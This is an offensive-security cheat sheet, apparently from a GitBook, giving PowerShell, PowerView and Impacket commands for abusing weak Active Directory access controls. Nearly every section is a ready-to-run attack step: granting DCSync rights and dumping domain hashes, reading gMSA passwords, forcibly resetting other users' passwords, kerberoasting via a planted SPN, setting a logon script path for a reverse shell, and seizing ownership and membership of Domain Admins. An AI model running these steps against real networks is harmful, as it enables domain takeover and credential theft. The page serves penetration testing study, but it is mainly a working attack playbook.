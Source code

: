 # Abuse Weak Access Control Lists (ACLs)

## **Write DACL**

{% code overflow="wrap" %}
```
$SecPassword = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUser,$SecPassword
```
{% endcode %}

```
Add-ObjectACL -PrincipalIdentity compromiseduser -Credential $cred -Rights DCSync
```

_From the attacking box_

```
secretsdumps.py $domain/user@$ip
```

## **GetChangesAll (DCSync)**

_From the attacking box_

```
secretsdump.py domain/user@ip
```

Or use Mimikatz

## **ReadGMSApassword**

#### Remotely&#x20;

_You may need to use ntpdate $domain if you get clockscrew error_

```
python2 /opt/gMSADumper/gMSADumper.py -d $domain -u CompromisedUser -p Password
```

#### Locally&#x20;

```
.\GMSAPasswordReader.exe --AccountName 'ReadGMSApassword_Rights_To_User'
```

## **ForceChangePassword**

```
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

```
$LateralEscUserPass = ConvertTo-SecureString 'LateralEscUserPass' -AsPlainText -Force
```

{% code overflow="wrap" %}
```
Set-DomainUserPassword -Identity LateralEscUserName -AccountPassword $LateralEscUserPass -Credential $Cred
```
{% endcode %}

## **GenericAll**

```
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity LateralEscUserName -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'password' -force)} -Credential $cred
```
{% endcode %}

## **GenericWrite**

_Use this for reverseshell using scriptpath=, enumeration, or use serviceprincipalname= for kerberoast_

```ps1
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

{% code overflow="wrap" %}
```
Set-DomainObject -Credential $Cred -Identity LateralEscUserName -SET @{serviceprincipalname='thescriptkid/thescriptkid'}
```
{% endcode %}

```
Get-DomainSPNTicket -Credential $Cred LateralEscUserName | fl
```

#### OR

{% code overflow="wrap" %}
```
Set-DomainObject -Credential $Cred -Identity LateralEscUserName -SET @{scriptpath='C:\\path\\to\\script.ps1'}
```
{% endcode %}

## **WriteOwner**

```ps1
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

{% code overflow="wrap" %}
```
Set-DomainObjectOwner -Credential $Cred -Identity "Domain Admins" -OwnerIdentity CompromisedUser
```
{% endcode %}

{% code overflow="wrap" %}
```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity CompromisedUser -Rights All
```
{% endcode %}

{% code overflow="wrap" %}
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CompromisedUser' -Credential $Cred
```
{% endcode %}

## Automation

_Find ACLs of interest whether it be the current compromised user, or users found. start with current user._

{% code overflow="wrap" %}
```
Find-InterestingDomainAcl -ResolveGUIDs | where-object {$_.identityreferencename -like "*CompromisedUser*"}
```
{% endcode %}

{% code overflow="wrap" %}
```
Find-InterestingDomainAcl -ResolveGUIDs | where-object {$_.ActiveDirectoryRights -like "*GenericAll*"} | Where-Object {$_.identityreferenceclass -ne "computer"}
```
{% endcode %}
